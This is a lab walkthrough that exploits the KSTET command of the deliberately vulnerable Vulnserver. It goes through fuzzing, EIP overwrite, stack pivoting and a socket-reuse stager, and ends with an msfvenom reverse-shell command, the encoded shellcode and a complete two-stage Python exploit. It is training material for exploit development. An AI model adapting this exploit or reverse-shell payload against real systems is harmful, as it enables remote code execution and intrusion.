

# Vulnserver KSTET - Stack pivoting & Socket Reusing

- [Vulnserver KSTET - Stack pivoting & Socket Reusing](#vulnserver-kstet---stack-pivoting--socket-reusing)
  - [Prologue](#prologue)
  - [Spiking the vulnserver](#spiking-the-vulnserver)
  - [Analysing the source code](#analysing-the-source-code)
  - [Fuzzing the server](#fuzzing-the-server)
  - [Finding offset](#finding-offset)
  - [Overwriting instruction pointer](#overwriting-instruction-pointer)
  - [Finding bad characters](#finding-bad-characters)
  - [Redirecting code execution](#redirecting-code-execution)
  - [Stack pivoting](#stack-pivoting)
  - [Socket reusing](#socket-reusing)
  - [Adding socket reuse stager](#adding-socket-reuse-stager)
  - [Crafting shellcode](#crafting-shellcode)
  - [Exploitation](#exploitation)

## Prologue

On last blog, we have exploited the ```GTER``` command using ```Socket Reuse Stager``` and we are going to perform the same attack on ```KSTET``` command to gain access on target machine

I had tried exploiting with ```egg hunters``` on this command, but it didn't work because of some opcodes

I had used egg hunter with ```Wow64``` and my VM is running on ```x64 bit architecture```

If anyone succeeded in exploiting this command using these, kindly ping me.. It would be a great help

## Spiking the vulnserver

Creating a ```spike script``` for spiking using ```generic_send_tcp```,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat kstet.spk      
s_readline();
s_string("KSTET ");
s_string_variable("0");
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ generic_send_tcp 192.168.116.140 9999 kstet.spk 0 0 
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
Fuzzing Variable 0:1
Variablesize= 5004
Fuzzing Variable 0:2
Variablesize= 5005
Fuzzing Variable 0:3
Variablesize= 21

...

```

While spiking KSTET command, we could see that we could not connect to the Vulnserver anymore

Yes.. It got crashed!!

We could see that our Vulnserver application has been terminated by ```Access Violation error```

From this we can confirm that, ```KSTET``` command is vulnerable to Buffer Overflow attack

## Analysing the source code

The source code for this command is,

```c
else if (strncmp(RecvBuf, "KSTET ", 6) == 0) {
				char *KstetBuf = malloc(100);
				strncpy(KstetBuf, RecvBuf, 100);
				memset(RecvBuf, 0, DEFAULT_BUFLEN);
				Function2(KstetBuf);
				SendResult = send( Client, "KSTET SUCCESSFUL\n", 17, 0 );
			}
```

It copies only ```100 bytes``` of our data into ```KstetBuf``` by using ```strncpy()```

```strncpy()``` is not vulnerable, but we have only ```small buffer space``` which becomes a constraint for us

After storing these, it invokes the vulnerable function ```Function2(KstetBuf)```

The souce code of this vulnerable function is,

```c
void Function2(char *Input) {
	char Buffer2S[60];
	strcpy(Buffer2S, Input);
}
```

Here the main overflow attack is caused by ```strcpy``` function, where Buffer2S is only limited for ```60 bytes``` but the incoming buffer has more data (100 bytes) than that causing it to overflow the Buffer2S buffer while copying

This command does not expects any special character used for validation

## Fuzzing the server

We have successfully crashed our server and the payload data begins with ```KSTET ```which is made up of ```6 bytes```

Lets create a python script which generates payload data and fuzzes the payload length to crash the server

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat fuzzing.py        
import socket, sys
payload=b"A"*100
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.116.140", 9999))
        s.send((b"KSTET "+payload))
        sleep(5)
        payload=payload+b"A"*100
    except:
        print("Fuzzing crashed at %s bytes"%(len(payload)))
        sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 fuzzing.py   
Fuzzing crashed at 100 bytes
```

The Vulnserver application should be ran without debugger, to avoid socket connection errors while fuzzing

So, from fuzzing we can estimate that our Vulnserver application is crashing at ```100 bytes``` of buffer data

Still, we are not sure about the approximate buffer space data need to create an overflow

## Finding offset

Creating pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 100 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Fuzzing with the pattern to crash the program,

<div align="center">

</div>

Finding offset of the ```EIP``` from the pattern

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
```

We can see that our EIP is at the offset of ```70 bytes``` in the pattern

So we should use ```6 bytes``` of KSTET and ```70 bytes``` of A's to reach EIP

## Overwriting instruction pointer

Now, we have found the offset of our EIP

It’s time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat overwrite-eip.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*70
# to overwrite EIP
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 overwrite-eip.py 
```

We have successfully overwrote the EIP with our own data ```0x44444444```

<div align="center">

</div>

So we could control EIP and redirect the code execution to the next point

## Finding bad characters

Lets pass bad characters on our ```buffer memory``` to see our data dump on that region,

```c
import socket, sys
# collection of badchars except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload=b""
# passing badchars on buffer and EBP
payload+=badchars[0:70]
# to overwrite EIP
payload+=b"B"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
```

Since our buffer space is low, we will be passing set of 70 bytes of characters in sequence to analyse it in the memory

After covering all characters, we could confirm that ```null byte``` is the only bad character

## Redirecting code execution

Since, this command is similar to ```GTER``` we will be trying the same scripts used before,

```c
──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat jmp-esp.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*70
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 jmp-esp.py
```

After crashing, we can see that we landed perfectly on ESP memory

<div align="center">

</div>

So, we have successfully redirected our program flow

Next we have to point it with our shellcode

But the main constraint here is our buffer size, it is so small to fit our shellcode in it

What we can do is, place an ```egg hunter / opcodes for re-using socket``` to get the second stage shellcode to exploit the program

In this blog we will try to exploit this by using ```socket reusage stager```

## Stack pivoting

Lets create the opcode value to drift back to EAX register using nasm-shell,

On EAX our ```KSTET``` value takes 6 bytes and lets other bytes as NOPs

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > add eax,0x10
00000000  83C010            add eax,byte +0x10
nasm > jmp eax
00000000  FFE0              jmp eax
```

Adding this opcode in our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"\x90"*70
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xcc" # break point to analyse
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 stack-pivot.py
```

After crashing our program, beyond EIP we can see our ```jmp eax```

<div align="center">

</div>

Proceeding with step intos, we can see that we have been redirected into the buffer data

<div align="center">

</div>

So we can successfully land into buffer data by stack pivoting

## Socket reusing

This ```KSTET``` command is almost similar to ```GTER``` command, the only difference between them is the buffer size

The ```JMP.&WS2_32.recv()``` is same and static, since they are all from the same program

We just need to craft the ```socket reuse stager``` to push the arguments into the stack for ```JMP.&WS2_32.recv()```

I have clearly discussed how to craft the socket reuse stager in detail on my previous post

We will be using the same stager, because we need the same operation to be performed by this socket

## Adding socket reuse stager

The socket reuse stager used for the previous exploit is,

```c
file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"
```

We will be passing it into our stage 1 payload

## Crafting shellcode

Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"
```

We have crafted our shellcode which is made up of ```351 bytes``` and it is almost impossible to send our payload in buffer data or in ESP

So lets use ```staging exploitation``` technique to send this payload by ```socket reuse stager```

## Exploitation

The final exploit for ```KSTET``` command is,

```c
import socket, sys
from time import sleep

file_descriptor=b""
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"

buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"

payload=b""
payload+=b"\x90"*10
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=get_file_descriptor
payload+=socket_recv
payload+=b"\x90"*(70-len(payload))
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"

stage1=b""
stage1+=payload

stage2=b""
stage2+=buf
stage2+=b"\x90"*(1024-len(buf))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))

print("[+] Sending STAGE 1 payload")
s.send((b"KSTET "+stage1))
sleep(5)

print("[+] Sending STAGE 2 payload")
s.send(stage2)

print("[+] Exploit complete.. Shell spawned")
s.close()
sys.exit(
```

After running this exploit on ```KSTET``` command, we will spawn a reverse shell

[EXPLOIT VIDEO](https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-2-exploit.mp4)

